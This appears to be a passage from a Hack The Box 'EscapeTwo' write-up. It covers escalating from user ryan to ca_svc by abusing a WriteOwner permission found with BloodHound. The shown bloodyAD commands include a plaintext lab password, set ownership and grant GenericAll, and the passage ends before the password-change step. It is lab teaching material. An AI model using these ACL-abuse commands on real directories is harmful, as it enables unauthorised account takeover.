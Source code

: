 # Privilege Escalation: ryan -> ca_svc

<br />

With valid system credentials, we can use tools like `BloodHound` to explore possible privilege escalation paths to `domain compromise`.

I documented the installation process in [this other writeup](https://theredp4nther.github.io/writeups/2024/HTB/Forest.html#bloodhound-setup). If you're unfamiliar with the setup, check it out and then return here.

Next, we proceed to enumerate Active Directory privileges using `BloodHound`.

We detect that `ryan` has `WriteOwner` permissions over the `ca_svc` user:

<br />

![3](../../../assets/images/EscapeTwo/3.png)

<br />

What does this mean?

This means that as `ryan`, we can change the password of `ca_svc` user.

To do it, we only need to run two commands with `bloodyAD` from our local machine, one to add `ryan` as a owner of the `ca_svc` user, and a second one to set the `writeAll` permission and change the password of `ca_svc` with a powershell command from the victim machine.

Let's do it:


<br />

```bash
❯ bloodyAD --dc-ip 10.10.11.51 --host sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan
[!] S-1-5-21-548670397-972687484-3496335370-1114 is already the owner, no modification will be made
❯ bloodyAD --dc-ip 10.10.11.51 --host sequel.htb -u ryan -p WqSZAF6CysDQbGb3 add genericAll ca_svc ryan
[+] ryan has now GenericAll on ca_svc
```

<br />

Then, we can run the powershell command:

<br />
